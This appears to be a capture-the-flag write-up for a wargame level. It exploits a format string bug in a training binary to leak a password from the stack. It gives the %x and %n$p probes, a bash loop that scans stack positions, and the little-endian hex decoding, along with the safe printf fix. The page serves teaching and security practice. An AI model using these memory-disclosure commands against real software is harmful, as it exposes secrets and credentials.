 ```yaml
---
sidebar_position: 4
---
```


import AsciinemaPlayer from '@site/src/components/AsciinemaPlayer';
import MissionObjective from '@site/src/components/MissionObjective';
import VulnerabilityCard from '@site/src/components/VulnerabilityCard';
import CodeBlock from '@site/src/components/CodeBlock';
import StepsList from '@site/src/components/StepsList';

# 💣 Level 02

<MissionObjective 
  level="Level 02"
  target="Password extraction"
  method="Format string vulnerability exploitation"
/>

## Vulnerability Analysis

<VulnerabilityCard 
  type="Format String Vulnerability"
  severity="high"
  description="The program uses printf(buffer) instead of printf('%s', buffer), allowing attackers to read arbitrary memory locations through format specifiers like %p, %x, and %s."
  techniques={[
    "Memory Disclosure",
    "Stack Dumping", 
    "Format String Exploitation"
  ]}
/>

## Initial Program Analysis

<CodeBlock 
  title="Program Execution"
  command="./level02"
  output={`===== [ Secure Access System v1.0 ] =====
/***************************************\\
| You must login to access this system. |
\\**************************************/
--[ Username: test
--[ Password: test
test does not have access!`}
/>

**Key Observations:**
- Program prompts for username and password
- Rejects all login attempts with "does not have access!" message
- Uses a secure access system interface

## Debugging Challenges

<CodeBlock 
  title="GDB Analysis Attempt"
  command="gdb ./level02"
  output={`(gdb) run
ERROR: failed to open password file`}
/>

**Critical Discovery:** The binary detects debugger environment and refuses to open the password file, making direct memory inspection impossible.

## Static Analysis Findings

<CodeBlock 
  title="Disassembly Analysis"
  command="(gdb) disas main"
  output={`Key findings from disassembly:
- fopen() reads password from file
- fread() loads password into stack buffer  
- printf(buffer) - VULNERABLE FORMAT STRING
- strncmp() compares user input to password`}
/>

## Format String Vulnerability Discovery

<CodeBlock 
  title="Testing Format String"
  command='echo "%x %x %x %x" | ./level02'
  output={`===== [ Secure Access System v1.0 ] =====
/***************************************\\
| You must login to access this system. |
\\**************************************/
--[ Username: %x %x %x %x
--[ Password: 
7fffffffe4d0 f7ff0000 0 7fffffffe5d8 does not have access!`}
/>

**Vulnerability Confirmed:** The program outputs raw hex values from memory!


## Live Demonstration

<AsciinemaPlayer 
  src="https://asciinema.org/a/bZKQrcaB5tGzuhHWxjO0E30KK.js" 
  id="asciicast-bZKQrcaB5tGzuhHWxjO0E30KK" 
/>


## Password Extraction Process

<StepsList steps={[
  {
    title: "Stack Position Enumeration",
    description: "Use format string to leak different stack positions systematically",
    command: 'for i in {1..50}; do echo "$i - %$i\\$p" | ./level02 | grep does; done',
    output: "Scanning stack positions 1-50 for password data..."
  },
  {
    title: "Identify Password Locations",
    description: "Find hex values that look like ASCII password chunks",
    command: "Key findings at specific positions:",
    output: `22 - 0x756e505234376848 does not have access!
23 - 0x45414a3561733951 does not have access!
24 - 0x377a7143574e6758 does not have access!
25 - 0x354a35686e475873 does not have access!
26 - 0x48336750664b394d does not have access!`
  },
  {
    title: "Convert Little-Endian Hex to ASCII",
    description: "Decode each hex value accounting for little-endian byte order",
    command: "Hex to ASCII conversion process:",
    output: `echo 756e505234376848 | sed 's/../& /g' | tac -rs ' ' | tr -d '\\n ' | xxd -r -p
# Result: HhH7R4Pnu

Repeat for each hex value to get password chunks`
  },
  {
    title: "Reconstruct Complete Password",
    description: "Combine all decoded chunks in correct order",
    command: "Final password assembly",
    output: "Complete password: [decoded_password_string]"
  },
  {
    title: "Successful Authentication",
    description: "Use extracted password to gain access",
    command: "./level02",
    output: `===== [ Secure Access System v1.0 ] =====
--[ Username: level03
--[ Password: [extracted_password]
Greetings, level03!
$ whoami
level03`
  }
]} />

## Technical Breakdown

<CodeBlock 
  title="Hex Decoding Process"
  command="# Step-by-step hex to ASCII conversion"
  output={`1. Split hex into byte pairs: 75 6e 50 52 34 37 68 48
2. Reverse byte order (little-endian): 48 68 37 34 52 50 6e 75  
3. Convert to ASCII: HhH7R4Pnu
4. Repeat for all password chunks
5. Concatenate results in stack order`}
/>

## Format String Exploitation Summary

<CodeBlock 
  title="Exploitation Methodology"
  command="# Format string vulnerability breakdown"
  output={`Vulnerable code: printf(buffer);
Safe code:       printf("%s", buffer);

Exploitation technique:
- %p: Print pointer values from stack
- %n$p: Print nth argument from stack  
- Stack contains password loaded by fread()
- Memory layout reveals password in chunks`}
/>

## Key Takeaways

- **Format string vulnerabilities** allow reading arbitrary memory through printf format specifiers
- **Anti-debugging techniques** can prevent dynamic analysis, requiring creative approaches
- **Little-endian encoding** must be considered when extracting multi-byte values
- **Stack layout understanding** is crucial for systematic memory disclosure
- **Automated scanning** with loops can efficiently map memory contents

**Tools used:** `printf format strings`, `bash loops`, `sed`, `xxd`, `tac`, static analysis

:::warning Anti-Debugging Protection
This binary demonstrates how programs can detect debugging environments and alter behavior. Always consider both dynamic and static analysis approaches.
:::

:::tip Format String Exploitation
The key insight is that printf(user_input) treats the input as a format string, allowing %p and %x specifiers to read memory. Position-specific format like %22$p targets exact stack locations.
::: 